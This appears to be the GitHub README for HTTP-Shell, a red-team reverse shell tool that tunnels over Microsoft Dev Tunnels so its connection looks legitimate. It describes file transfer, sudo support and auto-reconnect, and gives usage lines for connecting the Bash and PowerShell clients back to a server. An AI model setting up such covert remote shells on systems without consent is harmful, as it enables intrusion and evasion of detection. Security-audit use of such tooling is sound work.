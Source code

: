 <p align="center"><img width=450 alt="HTTP-Shell" src="https://github.com/JoelGMSec/HTTP-Shell/blob/main/HTTP-Shell.png"></p>

# HTTP-Shell
**HTTP-Shell** is Multiplatform Reverse Shell. This tool helps you to obtain a shell-like interface on a reverse connection over HTTP. Unlike other reverse shells, the main goal of the tool is to use it in conjunction with Microsoft Dev Tunnels, in order to get a connection as close as possible to a legitimate one.

This shell is not fully interactive, but displays any errors on screen (both Windows and Linux), is capable of uploading and downloading files, has command history, terminal cleanup (even with CTRL+L), automatic reconnection, movement between directories and supports sudo (or sudo su) on Linux-based OS.


# Requirements
- Python 3 for Server
- Install requirements.txt
- Bash for Linux Client
- PowerShell 2.0 or greater for Windows Client


# Download
It is recommended to clone the complete repository or download the zip file.
You can do this by running the following command:
```
git clone https://github.com/JoelGMSec/HTTP-Shell
```


# Usage
```
# Server

  _   _ _____ _____ ____      ____  _          _ _ 
 | | | |_   _|_   _|  _ \    / ___|| |__   ___| | |
 | |_| | | |   | | | |_) |___\___ \| "_ \ / _ \ | |
 |  _  | | |   | | |  __/_____|__) | | | |  __/ | |
 |_| |_| |_|   |_| |_|       |____/|_| |_|\___|_|_|
                                               
  ---------------- by @JoelGMSec -----------------

[!] Usage: HTTP-Server.py [PORT]


# Linux CLI

[!] Usage: ./HTTP-Client.sh -c [HOST:PORT] -s [SLEEP] (optional)


# Windows CLI

[!] Usage: .\HTTP-Client.ps1 -c [HOST:PORT] -s [SLEEP] (optional)

```

### The detailed guide of use can be found at the following link:

https://darkbyte.net/obteniendo-shells-con-microsoft-dev-tunnels


# License
This project is licensed under the GNU 3.0 license - see the LICENSE file for more details.


# Credits and Acknowledgments
Original idea and some code by Héctor de Armas Padrón [(@3v4si0n)](https://twitter.com/3v4si0n)

This tool has been created and designed from scratch by Joel Gámez Molina (@JoelGMSec).


# Contact
This software does not offer any kind of guarantee. Its use is exclusive for educational environments and / or security audits with the corresponding consent of the client. I am not responsible for its misuse or for any possible damage caused by it.

For more information, you can find me on Twitter as [@JoelGMSec](https://twitter.com/JoelGMSec) and on my blog [darkbyte.net](https://darkbyte.net).


# Support
You can support my work buying me a coffee:

[<img width=250 alt="buymeacoffe" src="https://cdn.buymeacoffee.com/buttons/v2/default-blue.png">](https://www.buymeacoffee.com/joelgmsec)

